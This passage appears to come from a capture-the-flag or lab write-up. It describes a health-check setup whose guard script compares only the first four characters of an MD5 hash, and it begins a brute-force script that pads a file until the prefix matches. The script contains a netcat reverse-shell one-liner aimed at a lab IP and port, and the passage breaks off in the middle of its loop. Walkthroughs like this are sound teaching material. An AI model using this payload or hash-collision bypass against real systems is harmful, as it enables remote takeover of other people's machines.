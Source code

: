 ````markdown

Do not modify the `healthy.sh`, otherwise it will not run**!**
````
- `prevention.sh`
	- This is a custom script designed to prevent another script from being executed if it’s been overwritten.
```bash
#!/bin/bash

if [ "$#" -ne 2 ]; then
    echo "Usage: $0 <script_to_run> <expected_md5_prefix>"
    exit 1
fi

script_to_run=$1
the_md5=$2

if [ ! -f "$script_to_run" ]; then
    echo "Error: The script '$script_to_run' does not exist."
    exit 1
fi

actual_md5_prefix=$(md5sum "$script_to_run" | awk '{print $1}' | cut -c 1-4)
expected_md5_prefix=$(echo "$the_md5" | awk '{print $1}' | cut -c 1-4)

if [ "$actual_md5_prefix" == "$expected_md5_prefix" ]; then
    echo "MD5 checksum matches. Running the script..."
    bash "$script_to_run"
else
    echo "MD5 checksum does not match. Expected '$expected_md5_prefix', but got '$actual_md5_prefix'."
    exit 1
fi
```
- `healthy.sh`
	- This script runs regular health checks. Using the following command, we can get its MD5 checksum:
```powershell
certutil -hashfile .\healthy.sh MD5
# result
MD5 hash of .\healthy.sh:
b8871ef2f34b68986393510750e83265
```

The MD5 hash `b8871ef2f34b68986393510750e83265` matches the one in the `README.MD` file.

Overall, the mechanism implemented here is used for performing regular health checks from a machine that connects to the shared folder. Additionally, it employs an *insecure* method for preventing the execution of an overwritten file, as it only checks the first 4 characters of the MD5 hash. This makes it vulnerable to a brute-force attack using the following script:

`brute.sh`
```bash
#!/bin/bash

# prepare the payload
FILE_PATH="shell.sh"
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.0.10.35 4444 >/tmp/f' > $FILE_PATH

TARGET_CHECKSUM="b887"

# add '#' to the end of shell file till first 4 characters are match
while true; do
    CURRENT_CHECKSUM=$(md5sum "$FILE_PATH" | awk '{ print $1 }' | cut -c 1-4)

    if [ "$CURRENT_CHECKSUM" == "$TARGET_CHECKSUM" ]; then
```